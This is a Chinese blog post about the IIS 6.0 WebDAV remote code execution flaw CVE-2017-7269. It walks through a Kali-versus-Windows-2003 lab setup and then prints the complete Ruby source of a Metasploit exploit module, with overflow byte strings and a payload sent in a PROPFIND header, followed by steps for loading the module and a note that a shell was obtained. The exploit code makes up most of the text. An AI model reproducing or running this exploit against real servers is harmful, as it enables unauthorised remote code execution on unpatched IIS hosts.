


# IIS 6.0 曝远程代码执行漏洞 CVE-2017-7269 - 阳光不败 - 博客园

> 原文：[`www.cnblogs.com/R-Hacker/p/9242283.html`](https://www.cnblogs.com/R-Hacker/p/9242283.html)

一、漏洞说明

　　漏洞编号：CVE2017-7269

　　影响中间件：IIS6.0 

　　影响服务器版本：windows 2003 R2

二、 环境搭建

虚拟机 kali ： 192.168.1.2 

靶机 windows 2003  R2   （需要开启 IIS 服务）

poc 如下代码：将如下代码存在一个 txt 文档里并改成【.rb】的格式

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
Rank = GoodRanking

include Msf::Exploit::Remote::Tcp

def initialize(info = {})
super(update_info(info,
'Name' => 'CVE-2017-7269 Microsoft IIS WebDav ScStoragePathFromUrl Overflow',
'Description' => %q{
Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.
Original exploit by Zhiniang Peng and Chen Wu.
},
'Author' => [
'Dominic Chell <dominic@mdsec.co.uk>',#original module
'zcgonvh <zcgonvh@qq.com>'#add option : PhysicalPathLength,HttpHost
],
'License' => MSF_LICENSE,
'References' =>
[
[ 'CVE', 'CVE-2017-7269'],
[ 'BID', '97127'],
[ 'URL', 'https://github.com/edwardz246003/IIS_exploit'],
],
'Privileged' => false,
'Payload' =>
{
'Space' => 2000,
'BadChars' => "\x00",
'EncoderType' => Msf::Encoder::Type::AlphanumUnicodeMixed,
'DisableNops' => 'True',
'EncoderOptions' =>
{
'BufferRegister' => 'ESI',
}
},
'DefaultOptions' =>
{
'EXITFUNC' => 'process',
'PrependMigrate' => true,
'PrependMigrateProc' => "calc"
},
'Targets' =>
[
[
'Microsoft Windows Server 2003 R2',
{
'Platform' => 'win',
},
],
],
'Platform' => 'win',
'DisclosureDate' => 'March 31 2017',
'DefaultTarget' => 0))

register_options(
[
Opt::RPORT(80),
OptInt.new('PhysicalPathLength', [ true, "length of physical path for target(include backslash)", 19]),
OptString.new('HttpHost', [ true, 'http host for target', 'localhost' ])
], self.class)
end

def exploit
connect

http_host=datastore['HttpHost'] + ":" + datastore['RPORT'].to_s

buf1 = "If: <http://#{http_host}/"
buf1 << "a"*(114-datastore['PhysicalPathLength'])
buf1 << "\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac"
buf1 << ">"
buf1 << " (Not <locktoken:write1>) <http://#{http_host}/"
buf1 << "b"*(114-datastore['PhysicalPathLength'])
buf1 << "\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81"

buf1 << payload.encoded

sock.put("PROPFIND / HTTP/1.1\r\nHost: #{http_host}\r\nContent-Length: 0\r\n#{buf1}>\r\n\r\n")

handler
disconnect
end

end

将该文件存放在 kali 的  /usr/share/metasploit-frameword/modules/exploits/windows/iis 目录下

然后用 kali 打开 msfconsole  

 

成功获取 shell